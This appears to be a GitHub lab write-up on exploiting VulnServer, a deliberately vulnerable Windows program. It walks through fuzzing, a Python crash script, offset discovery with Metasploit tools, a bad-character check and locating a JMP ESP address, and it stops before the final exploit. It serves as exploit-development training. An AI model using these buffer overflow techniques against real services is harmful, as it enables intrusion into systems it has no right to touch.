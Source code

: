 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)

It works Fine.

NOW WE NEED TO FIND THE JUMP ESP TO OVERWRITE THE RETURN ADDRESS TO VALUE POINTING TOWARDS OUR MEMORY 

type these commands in your Immunity Debugger 
```sh
!mona modules
```

```sh
!mona find -s "\xff\xe4" -m essfunc.dll
```
![alt text](jmp_esp.png)

You will see that best address we can use is 0x625011AF. Lets code it into our next exploit

Do note that while coding it we have to write it in Little Endian manner as per in `exploit7.py`

Restart the Immunity Debugger and In that ( LISTEN PROPERLY )

1. Right click < Go To < Expression < Write `625011AF`
   
2. Right Click at 625011AF < Set Breakpoint < toggle

3. Run it 

Check if your EIP is at 625011AF , Now beside the pause button there button in which you can step into memory address press it.

![alt text](exp7_immunity.png)

![alt text](exp7_immunity_inside.png)

TIME TO WRITE THE FINAL EXPLOIT !!









